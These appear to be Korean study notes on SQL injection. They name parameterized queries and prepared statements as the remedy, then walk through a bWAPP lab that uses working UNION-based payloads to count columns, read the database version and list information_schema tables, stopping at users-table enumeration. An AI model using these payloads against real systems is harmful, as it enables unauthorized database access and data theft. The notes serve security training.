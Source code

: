 즉  sql injection 취약점이 발생할 수 잇다



조치방안

정적 쿼리가 실행될 수 있도록 한다

항상 동일한 형태의 퀴리가 실행되는 것을 보장

구조화된 쿼리 실행

파라미터화된 쿼리 실행

preparedstatement 객체를 이용한 쿼리 실행





##### 실습

@Kali#2 브라우저로 bWAPP로 접속 (bee / bug)

Choose your bug: SQL Injection (GET/Search) 선택 후 Hack 버튼 클릭 > 영화 정보 조회 서비스



1.  a' 입력해서 인젝션 여부를 확인 

a' 

⇒ select * from movies where like '%a'%'

Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1

2.  정상적인 입력을 통해서 쿼리 실행 결과를 확인

man으로 검색

⇒ select * from movies where like '%man%'

3. 정상적인 쿼리가 몇 개의 컬럼을 반환하는지 확인

select * from movies where like '%man' order by 1 -- %'

​		:

select * from movies where like '%man' order by 8 -- %'

⇒ Error: Unknown column '8' in 'order clause' ⇐ 7 컬럼이 존재

4.  UNION 구문을 이용해서 DB정보를 출력

select * from movies where like '%man' and 1=2 union select @@version,2,3,4,5,6,7 -- %' 

⇒ 2, 3, 5, 4 가 출력

select * from movies where like '%man' and 1=2 union select 1,@@version,3,4,5,6,7 -- %' 

5.  테이블 정보를 조회

select * from movies where like '%man' and 1=2 union select 1,table_catalog,table_schema,table_name,table_type,6,7 from information_schema.tables -- %' 

6.  users 테이블에 컬럼 정보를 조회
